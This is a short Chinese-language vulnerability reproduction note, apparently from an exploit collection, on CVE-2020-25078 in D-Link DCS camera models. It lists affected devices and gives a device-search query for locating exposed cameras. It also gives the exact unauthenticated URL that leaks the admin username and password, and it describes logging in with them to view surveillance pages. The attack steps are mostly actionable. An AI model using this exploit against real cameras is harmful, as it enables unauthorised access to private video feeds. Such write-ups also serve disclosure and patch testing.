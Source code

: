 # D-Link DCS系列监控 账号密码信息泄露漏洞 CVE-2020-25078

## 漏洞描述

D-Link DCS系列监控 通过访问特定的URL得到账号密码信息，攻击者通过漏洞进入后台可以获取视频监控页面

## 漏洞影响

```
DCS-2530L
DCS-2670L
DCS-4603
DCS-4622
DCS-4701E
DCS-4703E
DCS-4705E
DCS-4802E
DCS-P703
```

## 网络测绘

```
app="D_Link-DCS-2530L"
```

## 漏洞复现

访问登录页面如下



![](./images/202202162226738.png)

出现漏洞的 Url 为, 其中泄露了账号密码

```plain
http://xxx.xxx.xxx.xxx/config/getuser?index=0
```



![](./images/202202162227778.png)

使用泄露的账号密码登陆系统

![](./images/202202162227388.png)
